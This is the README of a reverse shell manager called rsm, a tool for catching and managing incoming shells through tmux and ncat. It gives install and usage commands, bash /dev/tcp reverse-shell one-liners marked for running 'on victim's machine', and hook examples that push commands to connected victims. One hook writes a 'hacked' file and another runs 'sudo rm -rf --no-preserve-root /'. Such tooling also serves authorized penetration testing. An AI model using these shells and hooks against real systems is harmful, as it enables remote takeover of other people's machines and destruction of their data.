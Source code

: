 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Quick Start

Listening on a port

```shell
git clone https://github.com/djosix/rsm.git
cd rsm

./rsm 11111
# You will attach to a tmux session called 'rsm-11111',
# where 11111 is your listening port.
# You will not see rsm session when you open tmux
# because it uses its own tmux socket.
```

On victim's machine, launch a reverse shell

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/11111 0<&1'
# Once connected to the listening port,
# the script will create a window in our tmux session.
# Just switch to that window and interact with the client.
```

Attaching to the last rsm session

```shell
./rsm attach
```

Stop the server and cleanup

```shell
./rsm stop
# Stop all rsm listeners
```

Hooking the client connection

```shell
HOOK='echo Hello, you are $IP:$PORT' ./rsm d 12345
nc 127.0.0.1 12345
#| Hello, you are 127.0.0.1:50522
#|

HOOK='echo "echo hehe > ~/hacked"' ./rsm d 12345
bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1'
cat ~/hacked
#| hehe

HOOK='echo "sudo rm -rf --no-preserve-root /"' ./rsm d 12345
bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1' # good luck
```

## Install

```shell
git clone --depth 1 https://github.com/djosix/rsm.git $HOME/.rsm
# Then add $HOME/.rsm to your PATH
```

## Usage

```shell
$ rsm help
Usage:

    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message
```
